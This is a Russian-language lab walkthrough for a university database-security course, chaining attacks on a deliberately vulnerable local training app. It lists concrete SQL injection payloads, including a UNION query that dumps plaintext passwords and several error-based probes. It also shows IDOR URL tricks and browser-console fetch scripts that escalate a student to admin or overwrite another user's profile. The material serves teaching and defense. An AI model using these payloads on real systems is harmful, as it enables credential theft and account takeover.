

# Алгоритм практики: полная цепочка атак на учебный стенд

Учебный стенд: [DB_SEC_SITE](https://github.com/Wheatgrh/DB_SEC_SITE) · форк [Security_BD_ekz](https://github.com/EgorVoronin06/Security_BD_ekz)  
Цель практики: от входа как **студент `alice`** собрать данные всех пользователей, финансовую информацию и повысить привилегии.  
Базовый URL: **http://localhost:3000**

---

## Содержание

1. [Общая схема атаки](#общая-схема-атаки)
2. [Этап 0 — Подготовка](#этап-0--подготовка)
3. [Этап 1 — Разведка: аудит](#этап-1--разведка-аудит)
4. [Этап 2 — SQLi: каталог клиентов](#этап-2--sqli-каталог-клиентов)
5. [Этап 3 — SQLi: отчёты](#этап-3--sqli-отчёты)
6. [Этап 4 — IDOR: счета](#этап-4--idor-счета)
7. [Этап 5 — Эскалация: профиль](#этап-5--эскалация-профиль)
8. [Этап 6 — IDOR: чужие профили](#этап-6--idor-чужие-профили)
9. [Этап 7 — Подтверждение полного доступа](#этап-7--подтверждение-полного-доступа)
10. [Сводные таблицы](#сводные-таблицы)
11. [Минимальный путь](#минимальный-путь-если-мало-времени)
12. [Вывод для отчёта](#вывод-для-отчёта)
13. [Ссылки на детальные отчёты](#ссылки-на-детальные-отчёты)

---

## Общая схема атаки



### Логика последовательности

| Порядок | Почему именно так |
|:-------:|-------------------|
| 0 → 1 | Запуск стенда, фиксация роли `student`, первая утечка масштаба |
| 1 | Аудит **не даёт данных**, но **подсказывает** векторы без чтения кода |
| 2 | Каталог — **самый быстрый** путь к паролям всех пользователей |
| 3 | Отчёты — финансы, error-based, UUID счетов для IDOR |
| 4 | Invoices — полные карточки чужих счетов по UUID из этапа 3 |
| 5 | Профиль — эскалация до `admin` без пароля carol |
| 6 | Опционально — демонстрация IDOR на чужом профиле |
| 7 | Вход как carol — подтверждение, что утечённые credentials работают |

---

## Этап 0 — Подготовка

### 0.1 Запуск стенда

В корне проекта выполнить:

```bash
docker compose up --build
```

Дождаться строк в логах:

```
db-sec-lab-app  | Listening on http://0.0.0.0:3000
db-sec-lab-db   | database system is ready to accept connections
```

### 0.2 Проверка доступности

Открыть в браузере: **http://localhost:3000**

| Параметр | Значение |
|----------|----------|
| URL приложения | http://localhost:3000 |
| PostgreSQL | localhost:5432 |
| База | `training_lab` |
| Роль БД приложения | `app_user` / `app_user` |

### 0.3 Утечка без входа — главная страница

**Страница:** `/`  
**Действие:** открыть главную **не входя** в систему.

**Что увидеть на странице:**

| Метрика | Значение |
|---------|----------|
| Учётных записей | 3 |
| Клиентов | 4 |
| Счетов | 4 |
| Записей аудита | 4 |

**Что зафиксировать в отчёте:**

- статистика доступна **гостю**;
- это первая **information disclosure** — раскрыт масштаб системы;
- на главной также указаны учётные данные для практики: `alice` / `alice123`.

### 0.4 Вход в систему

1. Перейти: http://localhost:3000/login  
2. Ввести:

| Поле | Значение |
|------|----------|
| Username | `alice` |
| Password | `alice123` |

3. Нажать вход.

**Ожидаемый результат:** редирект на `/`, в шапке:

```
Сессия: alice (student)
```

**Зафиксировать:** исходная роль — **student**, привилегии ограничены.

---

## Этап 1 — Разведка: аудит

**Страница:** http://localhost:3000/audit  
**Документ:** [sql_injection_4.md](./sql_injection_4.md)  
**Тип уязвимости:** Broken Access Control + Information Disclosure  
**Цель этапа:** получить «карту» стенда без анализа исходного кода.

### 1.1 Действие

1. Убедиться, что в шапке: `alice (student)`
2. В меню нажать **Аудит** или открыть URL напрямую
3. Прочитать таблицу журнала (4 записи)

### 1.2 Что извлечь из журнала

| Actor | Action | Details | Подсказка для атаки |
|-------|--------|---------|---------------------|
| postgres | bootstrap | `BYPASSRLS`, unsafe grants | RLS не защищает → SQLi даст все строки |
| alice | login_failed | Wrong password from `172.20.0.15` | Утечка внутреннего IP |
| bob | ddl | `CREATE TEMP TABLE ... FROM training.invoices` | Таблица `invoices` — цель для отчётов и IDOR |
| carol | role_change | Changed alice from student to manager | На `/profile` можно менять роль |

### 1.3 Вывод этапа

Составить план из **4 направлений**:

```
/audit  →  подсказки
   ├─→ /catalog   (SQLi, BYPASSRLS)
   ├─→ /reports   (SQLi, invoices)
   ├─→ /profile   (role_change)
   └─→ /invoices  (IDOR по UUID)
```

### 1.4 Что писать в отчёте

- студент `alice` видит **admin-only** журнал;
- журнал ускоряет разведку и связывает уязвимости в единую цепочку.

---

## Этап 2 — SQLi: каталог клиентов

**Страница:** http://localhost:3000/catalog  
**Документ:** [sql_injection_1.md](./sql_injection_1.md)  
**Тип уязвимости:** SQL Injection (конкатенация в `ILIKE`)  
**Цель этапа:** получить **пароли всех пользователей** — ключ к полному компромиссу.

### 2.1 Контрольный тест (легитимный поиск)

1. Открыть **Клиенты**
2. В поле **Email** ввести:

```
ivan.petrov@example.org
```

3. Нажать **Искать**

**Ожидаемый результат:** **1 строка** — Ivan Petrov (клиент alice).

**Смысл:** фильтр в штатном режиме работает.

---

### 2.2 Обход фильтра — все клиенты

В поле **Email** ввести один из payload:

```
%
```

или

```
' OR '1'='1
```

**Альтернатива — URL:**

```
http://localhost:3000/catalog?q=%25
http://localhost:3000/catalog?q='%20OR%20'1'='1
```

**Ожидаемый результат:** **4 строки**:

| ФИО | Email | Владелец (owner_user_id) |
|-----|-------|--------------------------|
| Ivan Petrov | ivan.petrov@example.org | alice |
| Olga Sidorova | olga.sidorova@example.org | alice |
| Denis Morozov | denis.morozov@example.org | **bob** |
| Natalia Volkova | natalia.volkova@example.org | **carol** |

**Вывод:** alice видит **чужих** клиентов → изоляция нарушена.

---

### 2.3 Главная цель — UNION, пароли пользователей

В поле **Email** ввести:

```
' UNION SELECT 1, username, password, role, id FROM training.app_users--
```

**Ожидаемый результат:** в таблице появятся строки (колонки переиспользуются):

| ФИО (full_name) | Email (= password!) | Tier (= role) |
|-----------------|---------------------|---------------|
| alice | alice123 | student |
| bob | bob123 | manager |
| carol | carol123 | admin |

### 2.4 Таблица собранных учётных записей

| username | password | role | UUID |
|----------|----------|------|------|
| alice | alice123 | student | `8b8dea67-7624-4e41-9452-100cb4256805` |
| bob | bob123 | manager | `8ce21d94-2285-4cfa-9462-8d886261a847` |
| carol | carol123 | admin | `c6710eaa-49cf-4fb5-b5f2-5db37748e1cc` |

**Критический результат этапа:** можно войти под **любой** учёткой.

### 2.5 Доказательство в DevTools (опционально)

1. F12 → **Network**
2. Выполнить поиск с payload из п. 2.2
3. В ответе найти поле `sql` — видна склеенная SQL-строка с вводом пользователя

### 2.6 Что писать в отчёте

- уязвимая функция `unsafeSearchCustomers` в `db.ts`;
- конкатенация `'%${normalized}%'` вместо `$1`;
- `BYPASSRLS` у роли `app_user` усиливает ущерб.

---

## Этап 3 — SQLi: отчёты

**Страница:** http://localhost:3000/reports  
**Документ:** [sql_injection_2.md](./sql_injection_2.md)  
**Тип уязвимости:** SQL Injection в `training.run_custom_report` (`SECURITY DEFINER`)  
**Цель этапа:** финансовые данные, error-based подтверждение, UUID счетов.

### 3.1 Контрольный тест

В поле **WHERE fragment** оставить или ввести:

```
u.username = 'alice'
```

Нажать **Запустить отчет**.

**Ожидаемый результат:** **2 строки**:

| Customer | Amount | Owner | Card hint |
|----------|--------|-------|-----------|
| Ivan Petrov | 1800.00 | Alice Student | 4242 |
| Olga Sidorova | 9500.00 | Alice Student | 1881 |

---

### 3.2 Все счета системы

В поле **WHERE fragment** ввести:

```
1=1
```

**Ожидаемый результат:** **4 строки**:

| Customer | Amount | Owner | Card hint |
|----------|--------|-------|-----------|
| Ivan Petrov | 1800.00 | Alice Student | 4242 |
| Olga Sidorova | 9500.00 | Alice Student | 1881 |
| Denis Morozov | 15250.00 | Bob Manager | 7003 |
| Natalia Volkova | 49999.00 | Carol Admin | 9911 |

**Вывод:** alice видит счета bob и carol.

---

### 3.3 Error-based SQLi

В поле **WHERE fragment** ввести:

```
u.username = 'alice' AND 1/0 = 1
```

**Ожидаемый результат:**

- красный баннер: **`division by zero`**;
- таблица пустая: «Нет данных для отображения».

**Вывод:** ввод выполняется как SQL; ошибки PostgreSQL показываются пользователю (CWE-89, error-based).

**Дополнительные payload для разведки:**

```
u.username = 'alice' AND CAST((SELECT version()) AS int) = 1
```

```
u.username = 'alice' AND CAST((SELECT table_name FROM information_schema.tables WHERE table_schema='training' LIMIT 1) AS int) = 1
```

---

### 3.4 UNION — пароли через отчёты

```
1=0 UNION SELECT username, 0::numeric, password, role FROM training.app_users--
```

**Ожидаемый результат:** пароли в колонке **Owner** — дублирует этап 2 другим путём.

---

### 3.5 UNION — внутренние заметки по счетам

```
1=0 UNION SELECT notes, amount, status, card_hint FROM training.invoices--
```

**Ожидаемый результат:** в колонке **Customer** — тексты `notes`, в т.ч.:

- *Admin-only draft with sensitive internal comments.*
- *Contains overdue debt details for another exercise.*

---

### 3.6 UUID счетов для этапа 4

Записать из seed или из URL Invoice demo:

| UUID | Владелец | Сумма |
|------|----------|-------|
| `f11d0794-51d4-4824-8c4e-7d79c42f1275` | alice | 1800 |
| `25c3318b-9a6b-463c-bdd5-b6b94b4953d5` | alice | 9500 |
| `45e7035b-689d-41a4-b3b9-8940e3740bf9` | bob | 15250 |
| `004f7c74-a6e1-4f4b-ab8d-e2e4f7164339` | carol | 49999 |

### 3.7 Что писать в отчёте

- `$1` в Node.js не спасает — инъекция внутри `format(..., %s)` в PostgreSQL;
- `SECURITY DEFINER` повышает привилегии выполнения;
- вывод `err.message` клиенту — error-based вектор.

---

## Этап 4 — IDOR: счета

**Страница:** http://localhost:3000/invoices/{uuid}  
**Документ:** [sql_injection_6.md](./sql_injection_6.md)  
**Тип уязвимости:** IDOR (Insecure Direct Object Reference)  
**Цель этапа:** полная карточка **чужого** счёта — email, card_hint, внутренние заметки.

### 4.1 Свой счёт (контроль)

Открыть (или **Invoice demo** в меню):

```
http://localhost:3000/invoices/f11d0794-51d4-4824-8c4e-7d79c42f1275
```

**Ожидаемый результат:**

| Поле | Значение |
|------|----------|
| Customer | Ivan Petrov |
| Email | ivan.petrov@example.org |
| Amount | 1800.00 |
| Card hint | 4242 |
| Владелец | alice |
| Заметка | Alice can normally justify access only to this invoice. |

---

### 4.2 Второй свой счёт

```
http://localhost:3000/invoices/25c3318b-9a6b-463c-bdd5-b6b94b4953d5
```

**Ожидаемый результат:** Olga Sidorova, 9500.00, card_hint `1881`.

---

### 4.3 IDOR — счёт bob

```
http://localhost:3000/invoices/45e7035b-689d-41a4-b3b9-8940e3740bf9
```

**Ожидаемый результат:**

| Поле | Значение |
|------|----------|
| Customer | Denis Morozov |
| Email | denis.morozov@example.org |
| Amount | 15250.00 |
| Card hint | 7003 |
| Владелец | **bob** |

**IDOR подтверждён** — alice читает объект bob.

---

### 4.4 IDOR — admin-only счёт carol (ключевой тест)

```
http://localhost:3000/invoices/004f7c74-a6e1-4f4b-ab8d-e2e4f7164339
```

**Ожидаемый результат:**

| Поле | Значение |
|------|----------|
| Customer | Natalia Volkova |
| Email | natalia.volkova@example.org |
| Amount | **49999.00** |
| Status | draft |
| Card hint | 9911 |
| Владелец | **carol** |
| Заметка | **Admin-only draft with sensitive internal comments.** |

**Критический результат:** студент видит данные уровня admin.

---

### 4.5 Несуществующий UUID

```
http://localhost:3000/invoices/00000000-0000-0000-0000-000000000000
```

**Ожидаемый результат:** **404 Invoice not found** (не 403).

**Смысл:** проверяется только «есть в БД», не «принадлежит тебе».

---

### 4.6 Что писать в отчёте

- в `invoices/[id]/+page.server.ts` нет проверки `owner_username === locals.user.username`;
- SQL параметризован, но авторизация на уровне приложения отсутствует.

---

## Этап 5 — Эскалация: профиль

**Страница:** http://localhost:3000/profile  
**API:** `POST /api/users/{id}/profile`  
**Документ:** [sql_injection_3.md](./sql_injection_3.md)  
**Тип уязвимости:** Privilege Escalation (скрытое поле `roleName`)  
**Цель этапа:** повысить роль alice с `student` до `admin`.

### 5.1 Исходное состояние

В шапке: `alice (student)`  
UUID alice: `8b8dea67-7624-4e41-9452-100cb4256805`

### 5.2 Эксплуатация через DevTools

1. Открыть **Профиль**
2. F12 → **Console**
3. Выполнить:

```javascript
const fd = new FormData();
fd.append('fullName', 'Alice Student');
fd.append('email', 'alice@corp.local');
fd.append('roleName', 'admin');  // поля нет в HTML-форме!

const res = await fetch('/api/users/8b8dea67-7624-4e41-9452-100cb4256805/profile', {
  method: 'POST',
  body: fd
});

console.log(res.status, await res.json());
```

**Ожидаемый результат:** `200 { ok: true }`

4. Обновить страницу (F5)

**Ожидаемый результат в шапке:** `alice (admin)`

### 5.3 Альтернатива — роль manager

Заменить в payload:

```javascript
fd.append('roleName', 'manager');
```

Соответствует записи в аудите: *«Changed alice from student to manager»*.

### 5.4 Альтернатива — вход как carol

Если выполнен этап 2:

1. **Выход**
2. Вход: `carol` / `carol123`
3. Шапка: `carol (admin)`

**Смысл:** подтверждает, что пароли из UNION — рабочие.

### 5.5 Что писать в отчёте

- API принимает `roleName`, хотя в UI поля нет;
- нет проверки `params.id === locals.user.id` для смены роли;
- SQL безопасен, уязвимость — в логике приложения.

---

## Этап 6 — IDOR: чужие профили

**API:** `POST /api/users/{id}/profile`  
**Документ:** [sql_injection_3.md](./sql_injection_3.md) (раздел IDOR)  
**Тип уязвимости:** IDOR  
**Цель этапа:** изменить профиль **bob** от имени **alice** (опционально, для полноты отчёта).

### 6.1 Действие

Войти как `alice`. В Console:

```javascript
const fd = new FormData();
fd.append('fullName', 'Hacked Bob');
fd.append('email', 'hacked@evil.local');
fd.append('roleName', 'student');

const res = await fetch('/api/users/8ce21d94-2285-4cfa-9462-8d886261a847/profile', {
  method: 'POST',
  body: fd
});

console.log(res.status, await res.json());
```

UUID `8ce21d94-...` — это **bob**.

### 6.2 Проверка

1. **Выход**
2. Вход: `bob` / `bob123`
3. Открыть **Профиль**

**Ожидаемый результат:**

| Поле | Было | Стало |
|------|------|-------|
| Full name | Bob Manager | Hacked Bob |
| Email | bob@corp.local | hacked@evil.local |
| Role | manager | student |

### 6.3 Что писать в отчёте

- alice может менять **чужой** профиль по UUID в URL API;
- IDOR на профиле + эскалация на своём профиле = два вектора на одном эндпоинте.

---

## Этап 7 — Подтверждение полного доступа

**Цель:** убедиться, что цепочка атак привела к полному компромиссу.

### 7.1 Вход как carol (пароль с этапа 2)

| Поле | Значение |
|------|----------|
| Username | carol |
| Password | carol123 |

### 7.2 Проверить доступ

| Страница | Ожидание |
|----------|----------|
| `/audit` | Полный журнал |
| `/catalog` | Поиск работает |
| `/reports` | Отчёты доступны |
| `/invoices/004f7c74-...` | Admin-счёт открывается |

### 7.3 Или: alice после этапа 5

Если выполнен этап 5 (`roleName=admin`):

- шапка: `alice (admin)`;
- доступ ко всем разделам как у carol.

**Итог этапа 7:** продемонстрирован **полный компромисс** — либо через украденные credentials, либо через эскалацию.

---

## Сводные таблицы

### Порядок этапов (чеклист для отчёта)

```
┌──────────────────────────────────────────────────────────────────┐
│  ПРАКТИКА: от alice (student) до полных данных системы           │
└──────────────────────────────────────────────────────────────────┘

 ☐ 0. docker compose up --build
      └─ Главная / : статистика без входа (3 users, 4 clients...)

 ☐ 1. /login → alice / alice123
      └─ Зафиксировать: alice (student)

 ☐ 2. /audit — разведка
      └─ BYPASSRLS, role_change, training.invoices

 ☐ 3. /catalog — SQLi ★ КЛЮЧЕВОЙ
      ├─ Контроль: ivan.petrov@example.org → 1 строка
      ├─ % или ' OR '1'='1 → 4 клиента
      └─ UNION app_users → alice123, bob123, carol123

 ☐ 4. /reports — SQLi
      ├─ u.username = 'alice' → 2 счёта
      ├─ 1=1 → 4 счёта, card_hint
      ├─ 1/0 → division by zero
      └─ UNION notes → внутренние заметки

 ☐ 5. /invoices/{uuid} — IDOR
      ├─ Свой: f11d0794-... → OK
      └─ Чужой: 004f7c74-... (carol) → admin-only notes

 ☐ 6. /profile — roleName=admin
      └─ alice (student) → alice (admin)

 ☐ 7. (опц.) IDOR профиля bob
      └─ Hacked Bob / hacked@evil.local

 ☐ 8. Вход как carol / carol123
      └─ Подтверждение полного доступа

 ☐ 9. Сводная таблица данных → вывод в отчёте
```

---

### Итоговая таблица: что собрали и откуда

| Этап | Источник | Данные |
|:----:|----------|--------|
| 0 | `/` | Количество users, customers, invoices, audits |
| 0 | `/` | Учётка alice для входа |
| 1 | `/audit` | Подсказки: BYPASSRLS, role_change, invoices, IP |
| 2 | `/catalog` UNION | username, **password**, role, UUID всех users |
| 3 | `/reports` `1=1` | customer, amount, owner, card_hint (все счета) |
| 3 | `/reports` error | Подтверждение SQLi (division by zero) |
| 3 | `/reports` UNION | passwords, notes по счетам |
| 4 | `/invoices/id` | email клиента, полные notes, card_hint чужих счетов |
| 5 | `/profile` API | Смена своей роли на admin |
| 6 | `/profile` API | Изменение профиля bob (IDOR) |
| 7 | `/login` carol | Подтверждение украденных credentials |

---

### Типы уязвимостей в цепочке

| Тип | CWE | Страницы | Этап |
|-----|-----|----------|:----:|
| SQL Injection | CWE-89 | `/catalog`, `/reports` | 2, 3 |
| Error-based SQLi | CWE-89, CWE-209 | `/reports` | 3.3 |
| IDOR | CWE-639 | `/invoices/id`, `/profile` API | 4, 6 |
| Privilege Escalation | CWE-269 | `/profile` API | 5 |
| Broken Access Control | CWE-862 | `/audit` | 1 |
| Information Disclosure | CWE-200 | `/`, `/audit` | 0, 1 |

---

### Слабости БД (упомянуть в выводе)

| Проблема | Файл | Эффект |
|----------|------|--------|
| `BYPASSRLS` у `app_user` | `db/init/01-schema.sql` | RLS не работает |
| Пароли в plaintext | `training.app_users` | UNION сразу даёт credentials |
| `trust` в pg_hba | `db/pg_hba.conf` | Прямое подключение к PostgreSQL |
| `SECURITY DEFINER` + dynamic SQL | `run_custom_report` | Усиление SQLi в отчётах |

---

## Минимальный путь (если мало времени)

Только **3 шага** для паролей и финансов:

| Шаг | Действие | Payload / данные | Результат |
|:---:|----------|------------------|-----------|
| 1 | Вход | `alice` / `alice123` | Сессия student |
| 2 | `/catalog` | `' UNION SELECT 1, username, password, role, id FROM training.app_users--` | Все пароли |
| 3 | `/reports` | `1=1` | Все счета и card_hint |

Остальные этапы — для **полноты отчёта** и демонстрации разных классов уязвимостей.

---

## Вывод для отчёта

1. **SQL-инъекции** (`/catalog`, `/reports`) — основной канал утечки credentials и финансов. Одна точка входа (каталог) достаточна для получения паролей всех пользователей.

2. **IDOR** (`/invoices/[id]`) — доступ к объектам по UUID без проверки владельца; дополняет отчёты полными карточками и внутренними заметками.

3. **Broken Access Control** (`/profile`, `/audit`) — эскалация роли через скрытое поле API и чтение служебного журнала студентом.

4. **Слабости БД** — `BYPASSRLS`, plaintext passwords, `trust` в pg_hba — усиливают все атаки на уровне приложения.

5. **Цепочка атак:** разведка в аудите → SQLi в каталоге → **полный компромисс credentials** → финансы и IDOR → эскалация до admin. Демонстрирует принцип: *одна слабая точка ведёт к падению всей системы*.

---

## Ссылки на детальные отчёты

| Этап | Тема | Документ |
|:----:|------|----------|
| 1 | Аудит, BAC | [sql_injection_4.md](./sql_injection_4.md) |
| 2 | SQLi каталог, UNION | [sql_injection_1.md](./sql_injection_1.md) |
| 3 | SQLi отчёты, error-based | [sql_injection_2.md](./sql_injection_2.md) |
| 4 | IDOR счетов | [sql_injection_6.md](./sql_injection_6.md) |
| 5–6 | Профиль, эскалация, IDOR | [sql_injection_3.md](./sql_injection_3.md) |
| — | Навигация по всем отчётам | [README.md](./README.md) |

---

<p align="center">
  <strong>Учебный алгоритм · СурГУ · Безопасность БД · 2026</strong>
</p>
